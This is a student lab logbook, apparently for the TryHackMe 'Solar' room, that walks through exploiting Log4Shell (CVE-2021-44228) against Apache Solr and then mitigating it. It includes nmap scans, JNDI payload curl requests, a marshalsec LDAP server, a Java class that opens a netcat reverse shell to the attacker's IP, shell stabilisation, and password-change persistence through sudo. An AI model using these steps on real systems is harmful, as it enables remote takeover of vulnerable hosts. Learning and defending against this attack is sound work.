



# Logbook for Lab 01

## Purpose

On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package `log4j`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers trivial remote code execution on hosts engaging with software that utilizes this `log4j` version. This attack has been dubbed "Log4Shell."

Today, `log4j` version `2.16.0` is available and patches this vulnerability (JNDI is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability CVE-2021-45046 is not present). https://github.com/apache/logging-log4j2/releases/tag/rel%2F2.16.0

However, the sheer danger of this vulnerability is due to how ubiquitous the logging package is. Millions of applications, as well as software providers, use this package as a dependency in their own code. While you may be able to patch your own codebase using `log4j`, other vendors and manufacturers will still need to push their own security updates downstream. Many security researchers have likened this vulnerability to that of Shellshock by the nature of its enormous attack surface. We will see this vulnerability for years to come.

In this logbook, we will document the tasks and steps that we made when solving the TryHackMe exercise on the vulnerability identified as CVE-2021-44228. 

Link to the TryHackMe exercise: `https://tryhackme.com/room/solar`

## Task 1

### Step 1.1 - Start the AttackBox
- Start the TryHackMe's web-based AttackBox, or use our own machine through the given VPN so that we can explore the CVE-2021-44228 vulnerability.

### Step 1.2 - Start the Target Machine
- We need a computer to attack, thus, start the Machine as indicated in this step.

## Task 2

### Step 2.1 - Identify the Target Machine's IP
- The machine we want to attack has an IP, shown on the site. For example: "10.10.10.232"

### Step 2.2 - Perform Basic Reconnaissance
- To begin, we can start with basic reconnaissance to understand what ports are open on this machine. This is best done within a Linux distribution, thus, we used the given AttackBox and our machine running Ubuntu later on. The command to check all the ports in use is the `nmap` command-line tool:

```bash
nmap -v TARGET_MACHINE_IP
```



### Step 2.3 - Perform a Full Port Scan

- The application present on this target specifically uses ports that may not be immediately noticed by `nmap`. For a "whole picture perspective," we scanned all ports using:

```bash
nmap -v -p- TARGET_MACHINE_IP
```


### Step 2.4 - Identify Running Services

- A service is running on port 8983. To discover what this service is, we can open the browser and see what software is running on this port: `TARGET_MACHINE_IP:8983`.


## Task 3

### Step 3.1 - Identify Log Directory from Frontend

- On the front page, we can see all the arguments set, for example, the `-Dsolr.log.dir` argument is set to `/var/solr/logs`.


### Step 3.2 - Analyze Log Files

- We download the attached files as requested. By checking all files, we can see that one has a significant number of `INFO` entries showing repeated requests to one specific URL endpoint.

- This file is `solr.log`, and the "path" or URL endpoint is `/admin/cores`.


### Step 3.3 - Identify Potential Entry Point

- Viewing these log entries, we can see that there is a field name that indicates some data entry point that we as a user could control: the `params` field.

## Task 4

### Step 4.1 - Visit the Target URL

- With this information, we visit the `http://TARGET_MACHINE_IP:8983/solr/admin/cores` URL.

### Step 4.2 - Get the Attacking Machine's IP

- In our attacking machine, we will get the IP address by running: `ip addr show` or `ifconfig`.

### Step 4.3 - Set Up a Netcat Listener

- We prepare a netcat listener on port 9999: `nc -lnvp 9999`.

### Step 4.4 - Send the Exploit Payload

- Now that we have a listener staged, we can make a request including this primitive JNDI payload syntax as part of the HTTP parameters:

```bash
curl 'http://TARGET_MACHINE_IP:8983/solr/admin/cores?foo=${jndi:ldap://ATTACKING_MACHINE_IP:9999}'
```


## Task 5

### Step 5.1 - Clone and Build Exploitation Tools

- In order to try and exploit this vulnerability, we should have Java 8 and Maven installed on our machine.
- Clone the repository: "[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)" that contains an LDAP Referral Server.
- Inside the repository, build the program with the command: `mvn clean package -DskipTests`.

### Step 5.2 - Start LDAP Referral Server

- Run the following command to start a referral server:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKING_MACHINE_IP:8000/#Exploit"
```

- It prints out "Listening on 0.0.0.0:1389"

### Step 5.3 - Prepare Java Exploit

- Create the `Exploit.java` file:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKING_MACHINE_IP 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- The target has been configured with `ncat` for ease of exploitation, so that the command on the Exploit class will work
- Finnaly, compile it

```
javac Exploit.java -source 8 -target 8
```

### Step 5.3 - Run the server on port 8000

- In the same directory as the `Exploit.class` file, run:

```
python3 -m http.server
```

### Step 5.4 - Prepare a netcat listener

In order catch the requests from the target machine, we can run a netcat listener:

```
nc -lnvp 9999
```

### Step 5.4 - Trigger the exploit

```
curl 'http://10.10.220.155:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

- This way we catch a reverse shell in your netcat listener!





- At this point, a threat actor can realistically do whatever they would like with the victim, whether it be privilege escalation, exfiltration, install persistence, perform lateral movement or any other post-exploitation, potentially dropping cryptocurrency miners, remote access trojans, beacons and implants or even deploying ransomware.

## Task 6

### Step 6.1 - Test the reverse shell

- Now we that we have a reverse shell we can run commands like `whoami`:


- But this shell is not stable since we cannot use certain shell functions like ^C

### Step 6.2 - Upgrade Reverse Shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

- Then follow these steps:
    1. `python3 -c "import pty; pty.spawn('/bin/bash')"`
    2. Ctrl+Z
    3. Press the ENTER key
    4. `stty raw -echo`
    5. `fg`
    6. Press the ENTER key
    7. Press the ENTER key
    8. Press the ENTER key
    9. `export TERM=xterm`


- Now we have a shell that behaves like a normal one from our computer

### Step 6.3 - Check the current user's permissions

- To check the permissions of the user we are logged in as, we can run:

```
sudo -l
```



### Step 6.4 - Change the user's password

```
sudo bash
passwd solr
```

### Step 6.5 - Access the the machine via ssh

```
ssh solr@TARGET_MACHINE_IP
```

- This way, we can access the machine without the need of the reverse shell anymore.


## Task 7

### Step 7.1 - Review Logs for Attack Evidence

- Navigate to `/var/solr/logs` and review the `solr.log` file to see previously executed commands, including our exploitation.


## Task 8

### Step 8.1 - Locate and Modify Configuration File

- Locate `solr.in.sh` by running `locate solr.in.sh`.
- Modify the file and add: `SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`.
- Restart the service: `sudo /etc/init.d/solr restart`.

### Step 8.2 - Verify Mitigation

- Attempt to exploit the vulnerability again.
- The attack fails, thus the mitigation is successful.

## Conclusion

In this lab, we successfully identified, exploited, and mitigated the Log4Shell vulnerability (CVE-2021-44228). Through a structured approach, we performed reconnaissance, identified vulnerable services, executed a remote code execution exploit, and gained a reverse shell on the target machine.  

This exercise highlighted the severe impact of this vulnerability, demonstrating how an unauthenticated attacker could compromise a system using malicious log entries. Additionally, we explored how to stabilize our shell access and escalate privileges for persistent control over the system.  

Finally, we implemented a mitigation technique by modifying the Solr configuration file to disable the vulnerable lookup functionality in Log4j, preventing further exploitation.  

This lab underscores the importance of timely patching, vigilant monitoring of system logs, and proactive security measures to defend against emerging threats. The Log4Shell vulnerability serves as a crucial reminder of the widespread risks posed by insecure dependencies and highlights the necessity of continuous security awareness in software development and system administration.
